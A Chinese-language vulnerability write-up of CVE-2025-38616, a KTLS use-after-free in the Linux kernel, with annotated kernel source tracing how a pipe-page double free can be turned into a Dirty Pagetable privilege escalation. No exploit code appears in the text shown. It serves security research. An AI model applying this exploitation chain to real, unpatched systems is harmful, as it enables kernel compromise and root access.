# 【Kernel Exploit】CVE-2025-38616 (Dirty Pagetable) 漏洞分析

## 1. 测试环境

**测试版本**：Linux-6.1.134 [内核镜像地址](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.1.134/01/bzImage)

笔者测试的内核版本是 `Linux alpine 6.1.134 #1 SMP PREEMPT_DYNAMIC Sat Oct 17 22:41:31 CST 2026 x86_64 Linux`。

**编译选项**：开启`CONFIG_IO_URING`、`CONFIG_TMPFS`、`CONFIG_SHMEM`、`CONFIG_SECURITY`、`CONFIG_BINFMT_MISC`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_KCMP`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_SHUFFLE_PAGE_ALLOCATOR`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`、`CONFIG_TLS`、`CONFIG_TLS_DEVICE`、`CONFIG_NVME_TCP_TLS`、`CONFIG_NVME_TARGET_TCP_TLS`、`CONFIG_CHELSIO_TLS_DEVICE`、`CONFIG_MLX5_EN_TLS`、`CONFIG_CRYPTO`、`CONFIG_CRYPTO_ALGAPI`、`CONFIG_CRYPTO_ALGAPI2`、`CONFIG_CRYPTO_AEAD`、`CONFIG_CRYPTO_AEAD2`、`CONFIG_CRYPTO_MANAGER`、`CONFIG_CRYPTO_MANAGER2`、`CONFIG_CRYPTO_NULL`、`CONFIG_CRYPTO_NULL2`、`CONFIG_CRYPTO_CCM`、`CONFIG_CRYPTO_AES`、`CONFIG_CRYPTO_CTR`、`CONFIG_CRYPTO_CRYPTD`、`CONFIG_CRYPTO_USER_API`、`CONFIG_CRYPTO_USER_API_AEAD`、`CONFIG_CRYPTO_SIMD`、`CONFIG_CRYPTO_AES_NI_INTEL`选项。完整配置参考[(6.1.134).config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.1.134/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

## 2. 漏洞背景

### 2-1. 漏洞概述

**CVE-2025-38616** 是 Linux 内核 KTLS（Kernel TLS）子系统中由 **TCP 接收队列所有权归属不清与 TLS 流解析器缓存状态失配** 引发的一类 use-after-free 漏洞。它与 CVE-2025-37756 属于同一缺陷族：TLS stream parser 把接收队列首个 skb 的裸指针缓存进 `strp->anchor->shinfo->frag_list`，该字段不带引用计数；而另一条路径在 parser 仍缓存该指针时把 skb 从 `sk_receive_queue` 摘除并释放，使 `frag_list` 由有效指针变为悬垂指针。两者的区别只在“谁在 parser 背后消费了队列”：CVE-2025-37756 是 `connect(AF_UNSPEC)` 触发的 `tcp_disconnect()`，本文则是 KTLS 安装前已阻塞的 tcp reader 或 `TCP_ZEROCOPY_RECEIVE`。这也解释了为什么上游对 CVE-2025-37756 的修复（`5071a1e606b3`，显式禁止 KTLS socket 上的 `connect(AF_UNSPEC)`）无法覆盖本文——它堵住了生命周期入口，却没有堵住并发消费者入口。

KTLS 是 Linux 内核中把 TLS 记录层加解密下沉到内核的子系统，通过 `setsockopt(TCP_ULP, "tls")` 以 TCP ULP 形式挂载到已连接的 socket 上。挂载后，TLS 记录层的封装与解封装由内核完成，用户态只看到明文的 `sendmsg()` / `recvmsg()`。其核心设计假定是：一旦 TLS ULP 接管 socket，该 socket 的 TCP 接收队列就由 KTLS 独占，队列中的数据只能经 `tls_sw_recvmsg()` 消费。**CVE-2025-38616** 正是这一假定缺乏显式同步契约所导致的后果。

漏洞的直接对象是 TLS stream parser 的 anchor 缓存。parser 在数据到达路径 `tls_rx_msg_ready()` 中调用 `tls_strp_load_anchor_with_queue()`，把接收队列首个 skb 的裸指针缓存进 `strp->anchor->shinfo->frag_list`，用来定位待解析的 TLS record。该字段**不带引用计数**——anchor 只借用、不持有，skb 的生命周期仍由 `sk_receive_queue` 决定。这一“借用而不持有”的语义是整个漏洞的前提：只要队列中的 skb 在 anchor 缓存期间被释放，`frag_list` 就会悬垂。

问题在于，内核并未强制保证 TLS ULP 安装后该队列只由 KTLS 消费。KTLS 的安装不追溯已有阻塞状态：它既不会把已经在 `tcp_recvmsg()` 中阻塞的 tcp reader 移出，也不会阻止 `TCP_ZEROCOPY_RECEIVE` 的 `receive_fallback_to_copy` 路径回落到 `tcp_recvmsg_locked()`。这两条路径都能在 parser 仍缓存 `frag_list` 时，经 `tcp_eat_recv_skb()` 把首个 skb 从 `sk_receive_queue` 摘除并释放。一侧释放对象，另一侧保留裸指针，悬垂由此产生。这一悬垂形成机制**不依赖发送侧如何构造 skb**——官方 PoC 与本文 PoC 都通过同一条“接收队列在 parser 背后被消费”的路径形成悬垂，区别只在后续是否继续利用，以及利用时是否需要额外的发送侧布置。

触发该漏洞有两种典型方式，悬垂形成机制完全相同，区别仅在于 tcp reader 的入口。**tcp_recvmsg 路径**：子进程在 KTLS 安装**之前**进入 `tcp_recvmsg()` 并阻塞在 `sk_wait_data()`；父进程随后安装 KTLS 并发送数据。发送侧建立 `A` 与 `A_clone` 的绑定，两者共享 `head` 数据区 `H`；ACK 到达时 `tcp_ack()` → `tcp_clean_rtx_queue()` 释放 `A`，但 `A` 的释放路径在 `dataref == 1` 处短路，`H` 保持原状——**接收队列中只剩 `A_clone`**。数据到达时 softirq 在 `tls_strp_load_anchor_with_queue()` 中经 `tcp_recv_skb()` 把接收队列首 skb 存入 `anchor->frag_list`，存入的是 `A_clone` 而不是 `A`——`A` 已在 ACK 到达时被释放。子进程被唤醒后由 `tcp_eat_recv_skb()` 摘除并释放 `A_clone`，`H` 才第一次真实递减；父进程再调用 `recv()` 时 anchor 已悬垂，触发 UAF。**TCP_ZEROCOPY_RECEIVE 路径**：父进程先 `sendto` 让 softirq 完成 anchor 绑定，再由 `getsockopt(TCP_ZEROCOPY_RECEIVE)` 经 `receive_fallback_to_copy → tcp_recvmsg_locked → tcp_eat_recv_skb` 摘除并释放 skb，最后 `recv()` 触发 UAF。两条路径共用同一个根因——接收队列在 parser 背后被消费——但入口不同：前者依赖“KTLS 安装前已阻塞的 tcp reader”，后者依赖“KTLS 安装后仍可回落到 tcp 路径的 zerocopy 接口”。官方 PoC 的两条路径都在发送侧直接 `sendto` 一段数据，发送侧并不引入额外的 pipe page。

悬垂形成之后，后续 `tls_sw_recvmsg()` 的消费路径会先命中 `tls_strp_msg_load()` 中的 `WARN_ON(tcp_inq() < strp->stm.full_len)`。这个早退只作诊断：既不清理 `strp->stm` 也不刷新 anchor，调用方 `tls_rx_rec_wait()` 仍返回成功，`tls_sw_recvmsg()` 继续走到 `tls_rx_one_record → tls_decrypt_sw → tls_decrypt_sg`，在悬垂的 `frag_list` 上执行 `skb_nsg()`，对已释放的 skb 做 UAF 读，最终在 `skb_to_sgvec()` 的 `BUG()` 处崩溃。`WARN_ON + return` 之所以成为可用窗口，是因为它把“数据消失”当作可恢复的异常处理，却没有恢复 parser 的状态一致性——`strp->stm` 仍记录着旧的 `full_len`，anchor 仍指向旧的 skb，调用方仍以为 load 成功。官方 PoC 到此为止：UAF 读 + `BUG()`，构成内核 DoS。

本文所述 PoC 并未停在这个崩溃点，而是在**发送侧额外引入 `splice` 注入的 pipe page `P1`**，沿同一条悬垂消费路径把利用目标从“UAF 读”转到 `P1` 的双重释放。发送侧 `write` 40B TLS record 后，`splice` 把 pipe page `P1` 挂入 `A_clone` 的 `frags[0]`，`P1->page_ref` 增到 2（`pipe_buffer` 一份、`frags[0]` 一份）。tcp reader 释放 `A_clone` 时对 `P1` 的 `put_page` 是合法释放，`page_ref` 从 2 降到 1；父进程再调用 `recv()` 时，`tls_strp_msg_hold()` 对已释放的 `A_clone` 执行 `skb_clone`，克隆出的 `n` 继承了从 UAF 读出的 `frags[0]`，但 `n` 并不持有对 `P1` 的合法引用，`recv_end` 的 `__skb_queue_purge()` 释放 `n` 时仍会遍历 `frags[0]` 并对 `P1` 再执行一次 `put_page`，`page_ref` 从 1 降到 0——没有合法持有者。同一个引用被释放两次，`P1` 因此在仍被 `pipe->tmp_page` 引用的同时回到 buddy freelist，随后被 PTE 页表分配器取回，形成 pipe 页与 PTE 页重叠。`P1` 是本文 PoC 独有的布置，官方 PoC 中没有；这也是两者在利用目标上的根本区别：官方 PoC 只到“悬垂 `frag_list` 上的 UAF 读”，本文 PoC 则把这条悬垂链延伸为 `P1` 的双重释放。三层错位（`sk_buff` 结构体层、`skb->head` 内存层、物理页层）的详细机制是 2-2 的分析对象，此处不再展开。

**CVE-2025-38616** 的完整 Dirty Pagetable 利用链对内核版本有额外约束。`frag_list` 悬垂本身在较宽的版本区间内均存在，但本文所述“二次 `put_page(P1)` + `kmalloc-1k` 二次 `kfree(H)`”的具体链路还依赖 `shinfo->dataref` 能够递减到 0、`skb->head` 仍来自通用 `kmalloc` cache 等前置条件。`6.3` 引入的 `skbuff_small_head` 专用 cache（`bf9f1baa279f`）与 `6.9` 引入的 `skb_data_unref()`（`1cface552a`）都会破坏这些前置条件。在所述 x86_64 测试配置下，`skbuff_small_head` 的 SLUB freelist 指针偏移落在 `skb_shared_info` 的 `flags` / `nr_frags` 区域，使 frags 循环行为不可控；`skb_data_unref()` 则对 `dataref == bias` 做特殊处理，跳过原子递减，使 `dataref` 无法归零。两处变化都作用于链的后段，分别削弱 `H` 的 frags 循环可控性与 `H->dataref` 的归零可达性，进而影响 `P1` 二次 `put_page()` 与 `H` 二次 `kfree()` 的稳定性。因此完整链的可用窗口大致为 `6.0 <= kernel < 6.3`。

### 2-2. 漏洞根因

官方 PoC 以 `skb_to_sgvec()` 的 `BUG()` 收尾，其直接崩溃点是 UAF 读；本节不再重复这条 DoS 路径的根因分析。本节聚焦的是 **Dirty Pagetable 链能够成立的四层结构缺失**：UAF 读只是悬垂 `frag_list` 被消费时的表象，而 Dirty Pagetable 需要的是悬垂 `frag_list` 被消费时能进一步把一次 `put_page(P1)` 放大为两次——这才是四层缺失叠加后真正需要解释的部分。

四层缺失沿 T0–T5 时间线展开：挂载点层让 tcp reader 在 KTLS 接管后继续留在旧栈帧（T0 之前）；缓存绑定层让 anchor 的 `frag_list` 只借用不持有（T2）；早退分叉层让数据消失时解析器状态不恢复（T3 不早退、T5 早退）；并发消费层让 tcp reader 在 parser 背后摘除并释放 skb（T4）。四层依次衔接：前一层的缺口为后一层创造条件，四层同时存在才形成“悬垂 `frag_list` 被 `tls_strp_msg_hold()` 消费、二次 `put_page(P1)` 发生”的完整窗口。DoS 路径只用到前两层（悬垂形成 + 消费触发 BUG），Dirty Pagetable 路径则必须四层全部到位，这正是两者的根因分析范围不同之处。

若读者仅关心 DoS 崩溃点，2-1 已给出 UAF 读至 `BUG()` 的完整调用链；下文 2-2 的每一节都会在对应时间点说明该层对 Dirty Pagetable 链的贡献，而不再重复 DoS 的崩溃细节。

#### 2-2-1. 挂载点层

**时间点：T0 之前。** tcp reader 子进程已进入 `tcp_recvmsg()` 并阻塞在 `tcp_recvmsg_locked()` 调用的 `sk_wait_data()` 上：

```c
int sk_wait_data(struct sock *sk, long *timeo, const struct sk_buff *skb)
{
	DEFINE_WAIT_FUNC(wait, woken_wake_function);
	int rc;

	/* 把当前进程挂入 socket 的等待队列，等待条件为“接收队列尾发生变化” */
	add_wait_queue(sk_sleep(sk), &wait);
	/* 标记当前 socket 上有异步等待者，便于 poll/epoll 感知 */
	sk_set_bit(SOCKWQ_ASYNC_WAITDATA, sk);
	/* 核心等待：直到接收队列尾不再是调用方传入的 skb 时返回 */
	rc = sk_wait_event(sk, timeo,
			   skb_peek_tail(&sk->sk_receive_queue) != skb, &wait);
	/* 唤醒后清除异步等待标记，并从等待队列移除自身 */
	sk_clear_bit(SOCKWQ_ASYNC_WAITDATA, sk);
	remove_wait_queue(sk_sleep(sk), &wait);
	return rc;
}
```

主线程随后调用 `setsockopt(TCP_ULP, "tls")`，到达 `__tcp_set_ulp()` 时只检查 `icsk->icsk_ulp_ops` 是否已存在、socket 是否为 `TCP_LISTEN`，不检查是否有进程正阻塞在 `tcp_recvmsg()` 中：

```c
static int __tcp_set_ulp(struct sock *sk, const struct tcp_ulp_ops *ulp_ops)
{
	struct inet_connection_sock *icsk = inet_csk(sk);
	int err;

	/* 仅防止重复安装 ULP，不检查接收队列上是否有阻塞的 tcp reader */
	err = -EEXIST;
	if (icsk->icsk_ulp_ops)
		goto out_err;

	/* 清除 zerocopy 支持标记，但后续 zerocopy 入口未检查该标记 */
	if (sk->sk_socket)
		clear_bit(SOCK_SUPPORT_ZC, &sk->sk_socket->flags);

	/* 仅拒绝 LISTEN 状态，不拒绝 ESTABLISHED 状态下的阻塞读者 */
	err = -ENOTCONN;
	if (!ulp_ops->clone && sk->sk_state == TCP_LISTEN)
		goto out_err;

	/* 调用 TLS ULP 的 init 回调，实际接管发生在 tls_init() 内部 */
	err = ulp_ops->init(sk);
	if (err)
		goto out_err;

	icsk->icsk_ulp_ops = ulp_ops;
	return 0;
out_err:
	module_put(ulp_ops->owner);
	return err;
}
```

`tls_init()` 只允许 ESTABLISHED 状态，创建 `tls_context` 后经 `update_sk_prot()` 切换 `sk_prot` 与 `sk_socket->ops`：

```c
static int tls_init(struct sock *sk)
{
	struct tls_context *ctx;
	int rc = 0;

	tls_build_proto(sk);
	// [...]
	/* 只允许 ESTABLISHED 状态的 socket 挂载 TLS ULP */
	if (sk->sk_state != TCP_ESTABLISHED)
		return -ENOTCONN;

	write_lock_bh(&sk->sk_callback_lock);
	/* 分配 TLS 上下文，保存 crypto 参数与运行状态 */
	ctx = tls_ctx_create(sk);
	if (!ctx) {
		rc = -ENOMEM;
		goto out;
	}

	/* 初始 tx/rx 配置均为基础状态，RX 的真正初始化在 TLS_RX setsockopt 中 */
	ctx->tx_conf = TLS_BASE;
	ctx->rx_conf = TLS_BASE;
	/* 第一次切换 sk_prot：把 socket 的 recvmsg 入口换成 TLS 版本 */
	update_sk_prot(sk, ctx);
out:
	write_unlock_bh(&sk->sk_callback_lock);
	return rc;
}

void update_sk_prot(struct sock *sk, struct tls_context *ctx)
{
	int ip_ver = sk->sk_family == AF_INET6 ? TLSV6 : TLSV4;

	/* 根据 tx/rx 配置选择对应的 TLS sk_prot，替换 socket 的协议入口 */
	WRITE_ONCE(sk->sk_prot,
		   &tls_prots[ip_ver][ctx->tx_conf][ctx->rx_conf]);
	/* 同步替换 socket 的 ops，使 setsockopt 走 tls_setsockopt */
	WRITE_ONCE(sk->sk_socket->ops,
		   &tls_proto_ops[ip_ver][ctx->tx_conf][ctx->rx_conf]);
}
```

`update_sk_prot()` 只替换 `sk_prot` 与 `sk_socket->ops`，即**新 recvmsg 调用**的入口；已经阻塞在 `sk_wait_data()` 上的 tcp reader 不受影响。`TLS_RX` 阶段 `tls_sw_strparser_arm()` 又替换 `sk_data_ready`：

```c
void tls_sw_strparser_arm(struct sock *sk, struct tls_context *tls_ctx)
{
	struct tls_sw_context_rx *rx_ctx = tls_sw_ctx_rx(tls_ctx);

	write_lock_bh(&sk->sk_callback_lock);
	/* 保存旧 data_ready 回调（即 tcp_data_ready），TLS 解析完 header 后再回调它唤醒 tcp reader */
	rx_ctx->saved_data_ready = sk->sk_data_ready;
	/* 把 socket 的 data_ready 换成 tls_data_ready，数据到达时走 TLS 解析 */
	sk->sk_data_ready = tls_data_ready;
	write_unlock_bh(&sk->sk_callback_lock);
}
```

本层缺失的不变量是：ULP 安装前不检查接收队列上是否已有阻塞消费者，安装后也不撤销该消费者。tcp reader 留在旧栈帧，`sk_wait_data()` 挂入的等待队列此后同时被 `saved_data_ready()`（wake #1）与 `sk_error_report()`（wake #2）唤醒。这一缺口为后续 T2 的 anchor 绑定与 T4 的并发消费同时留下了可能——parser 与 tcp reader 都能看到同一条接收队列。

#### 2-2-2. T0/T1 绑定建立

T0/T1，发送侧建立 `A`、`A_clone`、`H` 与 `P1` 的绑定。`tcp_stream_alloc_skb()` → `alloc_skb_fclone()` → `__alloc_skb()` 分配 `sk_buff_fclones` 块：

```c
struct sk_buff *tcp_stream_alloc_skb(struct sock *sk, int size, gfp_t gfp,
				     bool force_schedule)
{
	struct sk_buff *skb;

	/* 从 fclone cache 分配：一个 sk_buff_fclones 块内同时容纳 skb1 与预留给 clone 的 skb2 */
	skb = alloc_skb_fclone(size + MAX_TCP_HEADER, gfp);
	if (likely(skb)) {
		bool mem_scheduled;

		skb->truesize = SKB_TRUESIZE(skb_end_offset(skb));
		// [...]
		/* 预留 TCP header 空间，后续 tcp_transmit_skb 会把 TCP header push 进去 */
		skb_reserve(skb, MAX_TCP_HEADER);
		skb->ip_summed = CHECKSUM_PARTIAL;
		INIT_LIST_HEAD(&skb->tcp_tsorted_anchor);
		return skb;
	}
	// [...]
	return NULL;
}

static inline struct sk_buff *alloc_skb_fclone(unsigned int size,
					       gfp_t priority)
{
	/* 带 SKB_ALLOC_FCLONE 标志分配，触发 __alloc_skb 走 fclone cache 路径 */
	return __alloc_skb(size, priority, SKB_ALLOC_FCLONE, NUMA_NO_NODE);
}
```

`__alloc_skb()` 中 `fclone_ref` 被初始化为 **1**——只有 `A` 占用 skb1，skb2 槽位空闲：

```c
struct sk_buff *__alloc_skb(unsigned int size, gfp_t gfp_mask,
			    int flags, int node)
{
	struct kmem_cache *cache;
	struct sk_buff *skb;
	bool pfmemalloc;
	u8 *data;

	/* fclone 路径使用专用 cache，普通 skb 走 skbuff_head_cache */
	cache = (flags & SKB_ALLOC_FCLONE)
		? skbuff_fclone_cache : skbuff_head_cache;
	// [...]
	/* 从 cache 中取一个 sk_buff_fclones 块，此时 fclone_ref 尚未初始化 */
	skb = kmem_cache_alloc_node(cache, gfp_mask & ~GFP_DMA, node);
	if (unlikely(!skb))
		return NULL;
	// [...]
	/* 分配 head 数据区 H，skb_shared_info 位于 H 的尾部 */
	data = kmalloc_reserve(&size, gfp_mask, node, &pfmemalloc);
	if (unlikely(!data))
		goto nodata;
	// [...]
	/* 把 H 与 skb 关联起来，初始化 skb_shared_info 的 dataref 等字段 */
	__build_skb_around(skb, data, size);
	skb->pfmemalloc = pfmemalloc;

	if (flags & SKB_ALLOC_FCLONE) {
		struct sk_buff_fclones *fclones;

		/* 通过 skb1 反推出整个 fclone 块，以便设置 fclone_ref */
		fclones = container_of(skb, struct sk_buff_fclones, skb1);

		skb->fclone = SKB_FCLONE_ORIG;
		/* fclone_ref 初始为 1：此时只有 A 占用 skb1，skb2 槽位空闲 */
		refcount_set(&fclones->fclone_ref, 1);
	}

	return skb;
	// [...]
}
```

`splice` 经 `do_tcp_sendpages()` → `tcp_build_frag()` 把 pipe page `P1` 挂入 `frags[0]`，`get_page()` 使 `P1->page_ref` 从 1 增到 **2**：

```c
static struct sk_buff *tcp_build_frag(struct sock *sk, int size_goal, int flags,
				      struct page *page, int offset, size_t *size)
{
	struct sk_buff *skb = tcp_write_queue_tail(sk);
	struct tcp_sock *tp = tcp_sk(sk);
	bool can_coalesce;
	int copy, i;

	/* 写队列为空或尾部 skb 无法合并时，分配一个新的 skb 并挂入写队列 */
	if (!skb || (copy = size_goal - skb->len) <= 0 ||
	    !tcp_skb_can_collapse_to(skb)) {
new_segment:
		// [...]
		skb = tcp_stream_alloc_skb(sk, 0, sk->sk_allocation,
					   tcp_rtx_and_write_queues_empty(sk));
		if (!skb)
			return NULL;
		// [...]
		tcp_skb_entail(sk, skb);
		copy = size_goal;
	}

	if (copy > *size)
		copy = *size;

	i = skb_shinfo(skb)->nr_frags;
	can_coalesce = skb_can_coalesce(skb, i, page, offset);
	// [...]
	if (can_coalesce) {
		/* 与尾部 frag 合并：page_ref 不增加，与已合并的 page 共享同一份引用 */
		skb_frag_size_add(&skb_shinfo(skb)->frags[i - 1], copy);
	} else {
		/* 独立挂入：get_page 使 P1->page_ref 从 1 增到 2（pipe_buffer 一份 + frags[0] 一份） */
		get_page(page);
		skb_fill_page_desc_noacc(skb, i, page, offset, copy);
	}

	// [...]
	skb->len += copy;
	skb->data_len += copy;
	skb->truesize += copy;
	// [...]
	*size = copy;
	return skb;
}
```

`P1` 不是漏洞本身的必要组成，而是本文 PoC 为了把悬垂消费路径延伸为 Dirty Pagetable 而在发送侧额外引入的布置。官方 PoC 的发送侧只 `sendto` 一段数据，不引入 pipe page；本文 PoC 在发送侧 `write` 40B TLS record 后，再用 `splice` 把 pipe page 挂入 `frags[0]`，使后续 `A_clone` 的释放路径多了一个可以被二次释放的物理页目标。没有 `P1`，T4 与 T5 的悬垂消费依然会发生（官方 PoC 即如此），但 T5 的消费只会触发 UAF 读与 `BUG()`，不会产生二次 `put_page(P1)`。`P1` 的引入把“UAF 读”转化为“物理页级双重释放”，这是 Dirty Pagetable 链能够成立的前提。

`tcp_transmit_skb()` → `__tcp_transmit_skb()` 在 `clone_it` 为真时调 `skb_clone()`：

```c
static int __tcp_transmit_skb(struct sock *sk, struct sk_buff *skb,
			      int clone_it, gfp_t gfp_mask, u32 rcv_nxt)
{
	// [...]
	struct sk_buff *oskb = NULL;
	// [...]
	if (clone_it) {
		oskb = skb;

		tcp_skb_tsorted_save(oskb) {
			/* 已被 clone 过的 skb 需要 pskb_copy，否则走 skb_clone */
			if (unlikely(skb_cloned(oskb)))
				skb = pskb_copy(oskb, gfp_mask);
			else
				/* 把 A 克隆为 A_clone，用于发送路径；A 保留在写队列 */
				skb = skb_clone(oskb, gfp_mask);
		} tcp_skb_tsorted_restore(oskb);

		if (unlikely(!skb))
			return -ENOBUFS;
		// [...]
	}
	// [...]
}
```

`skb_clone()` 中 `A` 是 `SKB_FCLONE_ORIG` 且 `fclone_ref == 1`，直接复用 skb2 槽位；`__skb_clone()` 中 `atomic_inc` 使 `dataref` 从 1 增到 2：

```c
struct sk_buff *skb_clone(struct sk_buff *skb, gfp_t gfp_mask)
{
	struct sk_buff_fclones *fclones = container_of(skb,
						       struct sk_buff_fclones,
						       skb1);
	struct sk_buff *n;

	/* 若 frags 涉及特殊页（如 zerocopy），需要先做 orphan 处理 */
	if (skb_orphan_frags(skb, gfp_mask))
		return NULL;

	/* 只有 A（SKB_FCLONE_ORIG）且 fclone_ref 仍为 1 时，才复用 skb2 槽位 */
	if (skb->fclone == SKB_FCLONE_ORIG &&
	    refcount_read(&fclones->fclone_ref) == 1) {
		n = &fclones->skb2;
		/* fclone_ref 从 1 升到 2：A 与 A_clone 各持一份 */
		refcount_set(&fclones->fclone_ref, 2);
		n->fclone = SKB_FCLONE_CLONE;
	} else {
		// [...]
		/* 不满足 fclone 复用条件时，退化为从 skbuff_head_cache 分配独立 skb */
		n = kmem_cache_alloc(skbuff_head_cache, gfp_mask);
		if (!n)
			return NULL;

		n->fclone = SKB_FCLONE_UNAVAILABLE;
	}

	return __skb_clone(n, skb);
}

static struct sk_buff *__skb_clone(struct sk_buff *n, struct sk_buff *skb)
{
#define C(x) n->x = skb->x

	n->next = n->prev = NULL;
	n->sk = NULL;
	/* 复制 header 字段（不含 sk、frags 等） */
	__copy_skb_header(n, skb);
	// [...]
	n->cloned = 1;
	n->nohdr = 0;
	// [...]
	/* A_clone->head 指向与 A 共享的 H */
	C(head);
	C(data);
	C(truesize);
	refcount_set(&n->users, 1);

	/* 增加 H 的 dataref，使 H 同时被 A 与 A_clone 引用：dataref 1 -> 2 */
	atomic_inc(&(skb_shinfo(skb)->dataref));
	skb->cloned = 1;

	return n;
#undef C
}
```

T1 结束时：`H->dataref=2`（`A` + `A_clone`）、`fclone_ref=2`、`P1->page_ref=2`，`A_clone` 被送入 `conn` 的 `sk_receive_queue`。此时 `A` 与 `A_clone` 共享同一 `head` 数据区 `H` 与同一 `frags[0]` 指向的 `P1`，但各自持有 `fclone_ref` 一份——这一共享关系是 T1.5 两条释放路径分叉的前提。

#### 2-2-3. T1.5 ACK 释放 A

T1.5，ACK 到达触发 `tcp_ack()` → `tcp_clean_rtx_queue()` 释放 `A`：

```c
static int tcp_ack(struct sock *sk, const struct sk_buff *skb, int flag)
{
	// [...]
	if (!prior_packets)
		goto no_queue;

	/* 从重传队列中移除已被 ACK 的 skb，内部会调用 __kfree_skb 释放 A */
	flag |= tcp_clean_rtx_queue(sk, skb, prior_fack, prior_snd_una,
				    &sack_state, flag & FLAG_ECE);
	// [...]
}

static int tcp_clean_rtx_queue(struct sock *sk, const struct sk_buff *ack_skb,
			       u32 prior_fack, u32 prior_snd_una,
			       struct tcp_sacktag_state *sack, bool ece_ack)
{
	// [...]
	for (skb = skb_rb_first(&sk->tcp_rtx_queue); skb; skb = next) {
		// [...]
		if (!fully_acked)
			break;

		tcp_ack_tstamp(sk, skb, ack_skb, prior_snd_una);

		next = skb_rb_next(skb);
		// [...]
		tcp_highest_sack_replace(sk, skb, next);
		/* 把 A 从重传队列摘除，并调用 __kfree_skb 进入释放路径 */
		tcp_rtx_queue_unlink_and_free(skb, sk);
	}
	// [...]
}
```

`A` 释放时 `skb_release_data(A)` 在 `dataref == 1` 短路，frags 循环不运行，`P1->page_ref` 保持 2，`H` 不被释放；`kfree_skbmem(A)` 把 `fclone_ref` 从 2 减到 1：

```c
static void skb_release_data(struct sk_buff *skb)
{
	struct skb_shared_info *shinfo = skb_shinfo(skb);
	int i;

	/* A 是 cloned，先递减 dataref；若递减后非零（2 -> 1），说明 A_clone 仍持有 H */
	if (skb->cloned &&
	    atomic_sub_return(skb->nohdr ? (1 << SKB_DATAREF_SHIFT) + 1 : 1,
			      &shinfo->dataref))
		/* 跳过 frags 循环与 skb_free_head：P1 不 put_page，H 不 kfree */
		goto exit;

	// [...]
	for (i = 0; i < shinfo->nr_frags; i++)
		__skb_frag_unref(&shinfo->frags[i], skb->pp_recycle);

free_head:
	// [...]
	skb_free_head(skb);
exit:
	skb->pp_recycle = 0;
}

static void kfree_skbmem(struct sk_buff *skb)
{
	struct sk_buff_fclones *fclones;

	switch (skb->fclone) {
	case SKB_FCLONE_UNAVAILABLE:
		/* 独立 skb：直接释放回 skbuff_head_cache */
		kmem_cache_free(skbuff_head_cache, skb);
		return;

	case SKB_FCLONE_ORIG:
		/* A 属于 fclone 块：递减 fclone_ref，但不一定释放整块 */
		fclones = container_of(skb, struct sk_buff_fclones, skb1);
		if (refcount_read(&fclones->fclone_ref) == 1)
			goto fastpath;
		break;

	default: /* SKB_FCLONE_CLONE */
		/* A_clone 属于 fclone 块：递减 fclone_ref，归零时释放整块 */
		fclones = container_of(skb, struct sk_buff_fclones, skb2);
		break;
	}
	/* fclone_ref 2 -> 1：A_clone 仍占用 skb2 槽位，整块暂不释放 */
	if (!refcount_dec_and_test(&fclones->fclone_ref))
		return;
fastpath:
	kmem_cache_free(skbuff_fclone_cache, fclones);
}
```

T1.5 结束时：`fclone_ref=1`、`H->dataref=1`、`P1->page_ref=2`，`conn` 的 `sk_receive_queue` 中只剩 `A_clone`。`A` 的释放只完成 `fclone_ref` 的一半递减，`H` 与 `P1` 都保持原状——这是 T4 释放 `A_clone` 时 `dataref` 从 1（而非 2）开始递减、`P1->page_ref` 从 2（而非 3）开始递减的直接原因，也是 T1.5 与 T4 两条释放路径分叉的起点。此后接收队列中只剩 `A_clone`，T2 的 anchor 绑定将针对它发生。

#### 2-2-4. T2 缓存绑定

T2，数据到达 `conn`，softirq 路径经 `tcp_data_ready()` → `tls_data_ready()` → `tls_strp_data_ready()` → `tls_strp_check_rcv()` 到达 `tls_strp_read_sock()`：

```c
void tls_data_ready(struct sock *sk)
{
	struct tls_context *tls_ctx = tls_get_ctx(sk);
	struct tls_sw_context_rx *ctx = tls_sw_ctx_rx(tls_ctx);
	struct sk_psock *psock;
	gfp_t alloc_save;

	/* softirq 上下文中使用 GFP_ATOMIC，避免睡眠 */
	alloc_save = sk->sk_allocation;
	sk->sk_allocation = GFP_ATOMIC;
	/* 进入 strparser：解析 TLS header、缓存 anchor */
	tls_strp_data_ready(&ctx->strp);
	sk->sk_allocation = alloc_save;

	psock = sk_psock_get(sk);
	if (psock) {
		// [...]
	}
}

void tls_strp_data_ready(struct tls_strparser *strp)
{
	/* socket 被用户进程持锁时，把解析工作排入 workqueue 延后执行 */
	if (sock_owned_by_user_nocheck(strp->sk)) {
		queue_work(tls_strp_wq, &strp->work);
		return;
	}

	/* 未被持锁时直接在当前上下文解析 */
	tls_strp_check_rcv(strp);
}

void tls_strp_check_rcv(struct tls_strparser *strp)
{
	/* 已停止或已就绪时无需重复解析 */
	if (unlikely(strp->stopped) || strp->msg_ready)
		return;

	/* 解析失败因内存不足时，延后到 workqueue 重试 */
	if (tls_strp_read_sock(strp) == -ENOMEM)
		queue_work(tls_strp_wq, &strp->work);
}
```

`tls_strp_read_sock()` 在 `!strp->stm.full_len` 时调用 `tls_strp_load_anchor_with_queue()`，随后 `tls_rx_msg_size()` 解析 header 得 `full_len=40`，`tls_rx_msg_ready()` 触发 wake #1：

```c
static int tls_strp_read_sock(struct tls_strparser *strp)
{
	int sz, inq;

	/* 接收队列中当前可读的字节数 */
	inq = tcp_inq(strp->sk);
	if (inq < 1)
		return 0;

	if (unlikely(strp->copy_mode))
		return tls_strp_read_copyin(strp);

	if (inq < strp->stm.full_len)
		return tls_strp_read_copy(strp, true);

	/* full_len 尚未确定：首次解析，把 anchor 绑定到接收队列首 skb */
	if (!strp->stm.full_len) {
